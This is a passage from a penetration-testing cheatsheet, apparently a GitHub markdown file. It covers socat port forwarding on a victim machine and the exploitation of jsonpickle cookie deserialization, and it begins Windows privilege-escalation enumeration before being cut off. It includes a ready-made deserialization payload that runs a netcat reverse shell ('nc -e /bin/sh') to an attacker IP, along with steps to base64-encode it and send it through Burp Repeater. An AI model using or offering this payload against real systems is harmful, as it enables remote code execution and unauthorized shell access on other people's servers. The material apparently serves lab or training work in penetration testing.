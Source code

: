 ```
https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#port-2-port-2

When running linpeas look for any apps that are running on a server

![processes](https://github.com/PellaPella/PTD-Cheatsheet/assets/73531195/2774674d-9ccd-4bf2-8523-b94f08a97352)

Find the app through manual enumeration (do not have method for command yet)

Port forward on victim machine
```
socat TCP-LISTEN:8282,fork TCP:127.0.0.1:8080 &
```

### Cookie by jsonpickle encode and decode
https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/

https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#port-2-port-2

Capture the cookie in burp suite intercepter with the IP

![image](https://github.com/PellaPella/PTD-Cheatsheet/assets/73531195/4cd8087b-f2f7-4463-8145-287167fb94a0)

Decode the cookie to the right in burpe suite by highlighting it
```
{"py/object": "app.User", "username": "Poseidon"}
```
Pass an evil python code it can be executed and give us a shell of the user its been executed with
```
{"py/object":"__main__.Shell", "py/reduce":[{"py/function":"os.system"},["/usr/bin/nc -e /bin/sh 192.168.56.105 4949"]], "username": "Poseidon"}
```
Pass to application using burp repeater after base64 encoding it

echo -n 'string' | base64
Target -> choose request -> right click -> send to repeater -> change username to payload




## Escalate Privileges
## WINDOWS

Do some basic enumeration to figure out who we are, what OS this is, what privs we have and what patches have been installed.
```
whoami
net user <username>
 - net user administrator
 - net user admin

